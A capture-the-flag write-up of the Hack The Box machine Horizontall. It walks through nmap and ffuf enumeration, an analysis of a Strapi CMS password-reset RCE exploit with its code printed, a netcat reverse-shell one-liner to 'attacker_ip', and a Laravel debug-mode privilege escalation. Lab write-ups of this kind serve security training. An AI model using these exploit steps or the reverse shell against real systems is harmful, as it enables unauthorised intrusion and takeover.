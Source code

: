 ```yaml
---
title: Horizontall
date: 2021-12-28 11:11:11 +/-TTTT
categories: [writeup, hackthebox]
tags: [dns,CVE-2021-3129, CVE-2019–1609 ]
---
```


|Machine Name | Date | Level | Type |
|-------------|-------|------|------|
| Horizontall | 2021-12-28 | Easy | ctf |

![infocard](/assets/htb/horizontall/newinfocard.png)


## Reconnaissance

As always start with the Nmap.

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-12 13:59 EST
Nmap scan report for horizontall.htb (10.10.11.105)
Host is up (0.31s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: horizontall
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.19 seconds

```

here we get the HTTP server and ssh service.


### HTTP

Let's Enumerate the HTTP first.

When we browse the IP address into a browser it redirects us to `http://horizontall.htb`. Add it to `/etc/hosts` file.

`index.html` serves a static image.

![index](/assets/htb/horizontall/indexpage.png)

Review source code but nothing interested found.

Lets try to fuzz for subdomains.


`ffuf -w /usr/share/seclists/Discovery/DNS/dns-Jhaddix.txt -u http://horizontall.htb -H "Host:FUZZ.horizontall.htb" -fc 301`

we can find one subdomain : `api-prod`

```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://horizontall.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/dns-Jhaddix.txt
 :: Header           : Host: FUZZ.horizontall.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response status: 301
________________________________________________

api-prod                [Status: 200, Size: 413, Words: 76, Lines: 20]


```

when we go-to `http://api-prod.horizontall.htb` webpage only display Welcome text.

![welcome](/assets/htb/horizontall/welcome.png)

Let's do directory fuzzing on subdomain.

`ffuf -u http://api-prod.horizontall.htb/FUZZ -w /usr/share/wordlists/dirb/common.txt`

we get

/admin
/index.html
/reviews
/robots.txt
/users

`robots.txt` is empty.

```
# To prevent search engines from seeing the site altogether, uncomment the next two lines:
# User-Agent: *
# Disallow: /

```

`/admin` looks interesting. Lets check it out.

on the `/admin` page we get `strapi` login page.

![admin](/assets/htb/horizontall/adminpage.png)

`strapi` is node.js , opensource api.

A quick search of searchsploit and we got rce.

![searchsploit.png](/assets/htb/horizontall/searchsploit.png)

Let analyse the exploit first.

```python3
if __name__ == ("__main__"):
    url = sys.argv[1]
    if url.endswith("/"):
        url = url[:-1]
    check_version()
    password_reset()
    terminal = Terminal()
    terminal.cmdloop()

```

First It will check if user provide any input (in this case a url) and if url is ended with `/` it will strip it.

next it will run the `check_version()` function.

```
def check_version():
    global url
    print("[+] Checking Strapi CMS Version running")
    version = requests.get(f"{url}/admin/init").text
    version = json.loads(version)
    version = version["data"]["strapiVersion"]
    if version == "3.0.0-beta.17.4":
        print("[+] Seems like the exploit will work!!!\n[+] Executing exploit\n\n")
    else:
        print("[-] Version mismatch trying the exploit anyway")

```

check version function try to find out version of `strapi`.
this function send the request to `http://api-prod.horizontall.htb/admin/init`. lets fetch `strapi` version manually.

`curl http://api-prod.horizontall.htb/admin/init`

![versioncms](/assets/htb/horizontall/versioncms.png)

As we can see we got version `3.0.0-beta.17.4` which is vulnerable to Unauthenticated Remote Code Execution.

Next exploit run the function `password_reset()`

```
global url, jwt
    session = requests.session()
    params = {"code" : {"$gt":0},
            "password" : "SuperStrongPassword1",
            "passwordConfirmation" : "SuperStrongPassword1"
            }
    output = session.post(f"{url}/admin/auth/reset-password", json = params).text
    response = json.loads(output)
    jwt = response["jwt"]
    username = response["user"]["username"]
    email = response["user"]["email"]

    if "jwt" not in output:
        print("[-] Password reset unsuccessfull\n[-] Exiting now\n\n")
        sys.exit(1)
    else:
        print(f"[+] Password reset was successfully\n[+] Your email is: {email}\n[+] Your new credentials are: {username}:SuperStrongPassword1\n[+] Your authenticated JSON Web Token: {jwt}\n\n")
```

This function is used to reset password for user.

It is send request to the `http://api-prod.horizontall.htb/admin/auth/reset-password` with the `params` data. and save output in `output` variable.

after successful execute of exploit it will run the `Terminal()` function. which is just serve us blind shell.


## Gaining Access

Now we understand how exploit works lets try it out.

![exploit](/assets/htb/horizontall/exploit.png)

We get reverse shell using 

```
mkfifo /tmp/lol;nc attacker_ip 1234 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol

```

![reveshell](/assets/htb/horizontall/strapishell.png)

Add our ssh public key in `/opt/strapi/.ssh/authorized_keys`
and ssh into box.


## Privilege Escalation

### strapi to root.

run the `linpeas.sh` and we found out port 1337 and 8000 are listen locally.

```
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN     
tcp        0      0 localhost:1337          0.0.0.0:*               LISTEN     
tcp        0      0 localhost:8000          0.0.0.0:*               LISTEN     
tcp        0      0 localhost:mysql         0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:http            0.0.0.0:*               LISTEN  

```

We can forward the port and analyse it from our machine.

` ssh strapi@$ip -L 8000:127.0.0.1:8000 `

browse the `http://127.0.0.1:8000/`. We got the default laravel page.

![img](/assets/htb/horizontall/laravel.png)

Here we can also see the version : `Laravel v8 (PHP v7.4.18)`.

Lets quick search for exploit and we got `Laravel 8.4.2 debug mode - Remote code execution `. This exploit target the improper input validation and attacker can get rce using this exploit.

![img](/assets/htb/horizontall/root.txt.png)

## Resources

